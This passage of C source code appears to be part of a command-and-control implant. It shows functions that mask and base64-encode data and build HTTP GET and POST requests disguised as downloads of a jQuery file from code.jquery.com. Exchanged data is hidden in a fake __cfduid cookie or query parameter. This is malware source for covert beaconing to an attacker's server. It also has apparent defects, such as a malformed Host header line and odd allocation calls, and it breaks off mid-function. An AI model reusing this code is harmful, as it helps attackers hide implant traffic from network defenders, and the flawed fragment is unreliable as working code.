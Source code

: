 ```
    memset(base64DecodeRes, 0, base64DecodeLength);
    base64_decode_to_ascii(data, base64DecodeRes);

    long maskEncodeRes[base64DecodeLength + 4];
    memset(maskEncodeRes, 0, base64DecodeLength + 4);
    mask_encode(base64DecodeRes, base64DecodeLength + 4, maskEncodeRes);

    unsigned long base64EncodeLength = get_base64_encode_length(sizeof(maskEncodeRes) / sizeof(maskEncodeRes[0]));
    char *result = calloc(base64EncodeLength, base64EncodeLength);
    ascii_to_base64_encode(maskEncodeRes, base64DecodeLength + 4, result);

    return result;
}

char *cc2_rebind_http_recv_param(char *payload) {
    char *data = fix_reverse(payload);

    unsigned long base64DecodeLength = get_base64_decode_length(data);
    long base64DecodeRes[base64DecodeLength];
    memset(base64DecodeRes, 0, base64DecodeLength);
    base64_decode_to_ascii(data, base64DecodeRes);

    long maskDecodeRes[base64DecodeLength - 4];
    memset(maskDecodeRes, 0, base64DecodeLength - 4);
    mask_decode(base64DecodeRes, base64DecodeLength, maskDecodeRes);

    unsigned long base64EncodeLength = get_base64_encode_length(base64DecodeLength - 4);
    char *result = calloc(base64EncodeLength, base64EncodeLength);
    ascii_to_base64_encode(maskDecodeRes, base64DecodeLength - 4, result);

    return result;
}

void cc2_rebind_http_get_send(char *reqData, char **outputData, long long *outputData_len) {
    char *requestBody = "GET /%s HTTP/1.1\r\n"
                        "Host: code.jquery.comr\n"
                        "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
                        "Accept-Encoding: gzip, deflate\r\n"
                        "User-Agent: Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko\r\n"
                        "Cookie: __cfduid=%s\r\n"
                        "Referer: http://code.jquery.com/\r\n"
                        "Connection: close\r\n\r\n";

    char postPayload[20000];
    sprintf(postPayload, requestBody, "jquery-3.3.1.min.js", reqData);

    *outputData_len = strlen(postPayload);
    *outputData = (char *) calloc(1, *outputData_len);
    memcpy(*outputData, postPayload, *outputData_len);
}

void cc2_rebind_http_post_send(char *reqData, char *id, char **outputData, long long *outputData_len) {
    char *requestBody = "POST /%s?__cfduid=%s HTTP/1.1\r\n"
                        "Host: code.jquery.com\r\n"
                        "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
                        "Accept-Encoding: gzip, deflate\r\n"
                        "User-Agent: Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko\r\n"
```